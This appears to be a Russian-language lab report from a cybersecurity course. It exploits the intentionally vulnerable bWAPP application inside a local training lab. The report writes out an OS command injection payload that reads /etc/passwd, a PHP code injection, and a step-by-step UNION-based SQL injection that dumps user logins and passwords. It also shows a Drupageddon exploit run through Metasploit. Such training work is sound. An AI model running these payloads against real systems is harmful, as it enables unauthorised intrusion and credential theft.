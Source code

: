 1. Развернуть уязвимое веб-приложение bWAPP
![bWAPP](images/FdEXqULNgq.png)
*Скриншот показывает интерфейс веб-приложения bWAPP после успешного развертывания.*

![bWAPP](images/chrome_Q8zpKmjg5O.png)
*Скриншот демонстрирует главную страницу bWAPP с доступными заданиями.*

2. Развернуть виртуальную машину с Kali Linux
![Kali Linux](images/tuJZfeTZU0.png)
*Скриншот показывает рабочий стол Kali Linux после успешного запуска виртуальной машины.*

3. Провести несколько простых кибератак: выполнить задания (уровень low) на OS Command Injection
	3.1 функционал приложения
	![OS Command Injection](images/chrome_0TJoXZdFSl.png)
	*Скриншот демонстрирует форму ввода для выполнения команды в уязвимом приложении.*

	3.2 эксплуатация уязвимости

	`nsa.gov&&cat /etc/passwd`
	![OS Command Injection](images/c1ADXYrIBU.png)
	*Скриншот показывает ввод команды, выводящий содержимое файла /etc/passwd.*

	![OS Command Injection](images/chrome_XMgv8cXpWJ.png)
	*Скриншот демонстрирует успешное выполнение команды, выводящий содержимое файла /etc/passwd*

4. PHP Code Injection
	4.1 функционал приложения
	`http://vuln-4.edtechlab.local/phpi.php?message=felixsta`
	![PHP Code Injection](images/chrome_zuijh0ye2S.png)
	*Скриншот показывает страницу с параметром message и значением `felixsta`, переданным в URL.*

	4.2 эксплуатация уязвимости

	`http://vuln-4.edtechlab.local/phpi.php?message=phpinfo()`
	![PHP Code Injection](images/chrome_WRXY25JBMx.png)
	*Скриншот демонстрирует результат выполнения команды phpinfo(), выводящий информацию о PHP.*

5. SQL-Injection (GET/Search)
	5.1 функционал приложения

		`term`
		![SQL Injection](images/chrome_AblVvH7zy5.png)
		*Скриншот показывает форму поиска, где можно ввести поисковый запрос. И результат выполнения запроса по слову `term`*

	5.2 обнаружение уязвимости

		`'`
		![SQL Injection](images/chrome_wRPil3EGHA.png)
		*Скриншот демонстрирует ошибку SQL, возникающую при вводе одиночной кавычки.*

	5.3 определение структуры запроса для вывода необходимой информации

		`1' UNION SELECT null,null,null,null,null-- `
		![SQL Injection](images/chrome_NzaBaarM0C.png)
		*Скриншот показывает результат выполнения UNION запроса с пятью null значениями.*

		`1' UNION SELECT null,null,null,null,null,null,null-- `

		![SQL Injection](images/chrome_bhyiPkk6ln.png)
		*Скриншот демонстрирует успешное выполнение UNION запроса с семью null значениями.*

	5.4 поиск таблицы с данными пользователя

		`1' UNION SELECT 1,table_name,3,4,5,6,7 FROM information_schema.tables -- `

		![SQL Injection](images/chrome_MDxLhtrCss.png)
		*Скриншот показывает результат запроса, выводящий имена таблиц из базы данных.*

	5.5 определение наименования столбцов таблицы имени пользователя и пароля

		`1' UNION SELECT 1,column_name,3,4,5,6,7 FROM information_schema.columns WHERE table_name = 'users' -- `

		![SQL Injection](images/chrome_v9jpkDqqFf.png)
		*Скриншот демонстрирует результат запроса, выводящий имена столбцов таблицы users.*

	5.6 вывод необходимой информации

		`1' UNION SELECT 1,login,admin,secret,password,6,7 FROM users -- `

		![SQL Injection](images/chrome_GIZ2jvuh9r.png)
		*Скриншот показывает результат запроса, выводящий логины и пароли пользователей.*

6. Drupal SQL-Injection (Drupageddon)
	6.1 функционал приложения
	![Drupal SQL Injection](images/chrome_ullRNEoNe6.png)
	*Скриншот демонстрирует интерфейс уязвимого Drupal сайта.*

	6.2 эксплуатация уязвимости
	![Drupal SQL Injection](images/Termius_MaGQAKuMdE.png)
	*Скриншот показывает поиск и настройку exploit для эксплуатации уязвимости через Metasploit.*

	![Drupal SQL Injection](images/Termius_LfWj8vZpyD.png)
	*Скриншот демонстрирует успешное выполнение exploit и получение доступа.*

	![Drupal SQL Injection](images/Termius_Ko5KSedVab.png)
	*Скриншот показывает дальнейшие шаги по эксплуатации уязвимости.*

	![Drupal SQL Injection](images/Termius_Asz4bl6Uy4.png)
	*Скриншот демонстрирует выполнение дополнительных команд для получения данных.*

	![Drupal SQL Injection](images/Termius_VNxWMdB090.png)
	*Скриншот показывает финальный результат эксплуатации уязвимости.*